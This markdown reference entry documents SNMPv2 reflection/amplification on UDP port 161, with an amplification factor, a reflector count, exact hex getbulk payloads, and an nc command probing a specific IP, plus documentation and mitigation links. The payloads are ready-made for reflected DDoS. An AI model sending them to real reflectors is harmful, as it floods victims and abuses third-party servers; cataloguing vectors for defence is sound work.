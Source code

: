 # SNMPv2

## Port: 161

## Proto: UDP

## Amplification factor: 40x

## Reflector count: ~295,000 with over 2,000 bytes.

---

### Refined "public" getbulk query (34 bytes)

- **Responding with an average of 2300 bytes**, leading to an amplification factor of ~40x.
- `\x30\x20\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x13\x02\x02\x00\x01\x02\x01\x00\x02\x01\x46\x30\x07\x30\x05\x06\x01\x28\x05\x00`

### Example larger typical abuseful probes (38 bytes)

- 302402010104067075626c6963a517020465c941f002010002010a3009300706032b06010500
- 302402010104067075626c6963a517020474cb377402010002010a3009300706032b06010500
- 302402010104067075626c6963a51702047b73cc130201000201643009300706032b06010500

### Example request/response

- > ~# echo -ne '\x30\x24\x02\x01\x01\x04\x06\x70\x75\x62\x6c\x69\x63\xa5\x17\x02\x04\x7b\x73\xcc\x13\x02\x01\x00\x02\x01\x64\x30\x09\x30\x07\x06\x03\x2b\x06\x01\x05\x00' |nc -u 31.133.49.250 161
      <pre>2561 bytes</pre>

### Documentation

- https://tools.ietf.org/html/rfc3412
- https://kb.iweb.com/hc/en-us/articles/230268048-Guide-to-Public-SNMP-Amplification-Issues
- https://www.darkreading.com/attacks-breaches/snmp-ddos-attacks-spike/d/d-id/1269149

### Mitigations

- https://www.bitag.org/documents/SNMP-Reflected-Amplification-DDoS-Attack-Mitigation.pdf
